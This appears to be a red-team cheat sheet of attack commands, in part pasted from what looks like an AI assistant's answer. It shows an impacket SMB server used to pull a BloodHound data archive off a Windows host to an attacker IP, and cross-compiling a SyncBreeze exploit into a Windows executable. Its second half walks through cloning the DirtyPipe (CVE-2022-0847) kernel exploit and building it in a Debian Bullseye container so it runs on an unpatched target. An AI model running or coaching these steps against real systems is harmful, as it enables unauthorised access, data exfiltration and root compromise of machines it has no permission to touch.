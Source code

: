 https://github.com/0xJs/RedTeaming_CheatSheet/tree/main

SSH key restructure:
```
`cat ~/.ssh/weirdpemkey | sed 's/\\n/\'$'\n/g'`
```

Quickly send over files from Windows:
`impacket-smbserver share $(pwd) -smb2support`
`copy C:\temp\20250422101050_BloodHound.zip \\10.10.16.7\share`


### GCC Error: 
./exploit-2: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.34' not found (required by ./exploit-2)
```
sudo apt install gcc-multilib
Then compile the exploit with gcc -m32 exploit.c -o exp
```

Compiling .exe from linux | compile .sln
```
sudo apt install mingw-w64
i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe -lws2_32
dotnet build file.sln
```


### System Info Recap

- **Kernel**: `5.10.0-18-amd64` (✅ vulnerable to DirtyPipe if unpatched!)
- **GLIBC**: `2.31` (from Debian Bullseye)
- **Architecture**: `x86_64`
- **No Internet** & **No GCC** on target

---

### 🧨 Why Your Exploit Fails

The DirtyPipe binary you tried requires `GLIBC_2.34`, but your system has only `2.31`. That mismatch is fatal for dynamically linked binaries.

---

### ✅ What You Need to Do

You need to **compile the DirtyPipe exploit on another machine** that:

- Has GCC.
- Has **GLIBC 2.31 or older** (or can be made to compile statically).
- Can transfer the binary back to the target system.

---

### 🛠 Step-by-Step Fix (on another machine)

Assuming you have access to a Linux box with internet and GCC:

#### 1. **Get a DirtyPipe PoC (working with 5.10)**

Here's a solid one from Alexis:
https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits

```
git clone https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits
cd CVE-2022-0847-DirtyPipe-Exploits
```
#### 2. **Compile for your target**

Since your target uses GLIBC 2.31, we need to build **on a system that also has 2.31** (or statically compile it).

If you have Docker, you can do it easily:
```
docker run --rm -it -v "$PWD:/src" debian:bullseye bash
```

Inside the contianer:
```
apt update && apt install -y gcc make
cd /src
gcc exploit.c -o exploit-bullseye
exit
```
